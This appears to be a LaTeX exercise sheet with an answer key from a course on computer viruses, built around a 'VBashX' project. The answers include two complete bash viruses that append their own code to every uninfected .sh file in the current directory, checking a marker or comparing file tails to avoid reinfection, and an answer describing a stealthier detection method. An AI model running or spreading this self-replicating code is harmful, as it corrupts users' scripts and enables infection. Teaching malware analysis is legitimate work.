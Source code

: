 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{enumerate}
\item[\textbf{2c)}] \textbf{Test execution strategy:} Explain the principle (without implementing): extract the last lines of the file, execute them with a special argument (e.g., \texttt{--vbx-test}), analyze the output. What are the advantages and disadvantages?

\item[\textbf{2d)}] Fill in a comparative table of the 3 strategies according to the criteria: reliability, stealth, robustness to polymorphism.
\end{enumerate}

\begin{correction}

\textbf{2a)} Virus with marker-based anti-reinfection:
\begin{lstlisting}[title=vbashx\_phase2a.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 2a --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=10
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{2b)} Virus with tail-comparison anti-reinfection:
\begin{lstlisting}[title=vbashx\_phase2b.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 2b ---
VIRUS_SIZE=11
MY_CODE=$(echo -n $(tail -n $VIRUS_SIZE "$0"))
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        TARGET_CODE=$(echo -n $(tail -n $VIRUS_SIZE "$f"))
        if [ "$MY_CODE" != "$TARGET_CODE" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{2c)} \textbf{Test execution strategy:} Extract the last \texttt{VIRUS\_SIZE} lines of the target file into a temporary file, execute it with a special argument (e.g., \texttt{./tmp\_test.sh --vbx-test}). If the viral code is present, it detects the argument and returns a specific exit code (e.g., \texttt{exit 42}).

\textit{Advantages:} Non-incriminating (no plaintext signature), works even if the viral code changes form.

\textit{Disadvantages:} More complex to implement, requires executing potentially dangerous code, slower (fork + exec for each tested file).


\end{correction}
\end{exercice}
\end{document}
